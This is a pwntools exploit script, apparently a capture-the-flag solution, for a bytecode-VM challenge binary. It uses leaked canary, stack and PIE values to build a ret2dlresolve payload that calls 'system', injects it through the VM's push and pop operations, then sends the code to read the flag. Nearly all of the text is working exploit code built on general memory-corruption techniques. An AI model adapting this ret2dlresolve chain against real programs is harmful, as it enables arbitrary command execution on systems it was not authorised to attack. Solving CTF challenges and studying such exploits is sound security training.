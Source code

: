 ```python
restore()   # regs[14] = canary; regs[13] = stack leak; regs[12] = pie leak; regs[11] = reloc_index
LEAK_OFFS = 0x1cfe
PLT_INIT_OFFS = exe.get_section_by_name(".plt").header.sh_addr
print(f"plt_init_offs: {hex(PLT_INIT_OFFS)}")
set(LEAK_OFFS - PLT_INIT_OFFS, 0)
binary(OPCODE_SUB, 12, 0)

dlresolve = Ret2dlresolvePayload(exe, symbol="system", args=["whatever"], data_addr=exe.sym["regs"])
print(f"dlresolve.data_addr: {hex(dlresolve.data_addr)}")
print(f"dlresolve.reloc_index: {dlresolve.reloc_index}")

set(dlresolve.reloc_index, 11)
save()

for i in range(0, len(dlresolve.payload) // 8):
    push_imm_64(u64(dlresolve.payload[8*i:8*(i+1)]))
    pop(i)

full += b"cat flag >&2"
if len(full) % 4 != 0:
    full = full.ljust((len(full) // 4 + 1) * 4, b"\x00")
io.sendlineafter(b"Code size (bytes): ", str(len(full)).encode())
io.sendafter(b"Code: ", full)

if args.GDB:
    io.interactive()
else:
    res = io.recvuntil(b"flag{").strip()
    print('flag{' + io.recvuntil(b'}').strip().decode())
    io.close()
```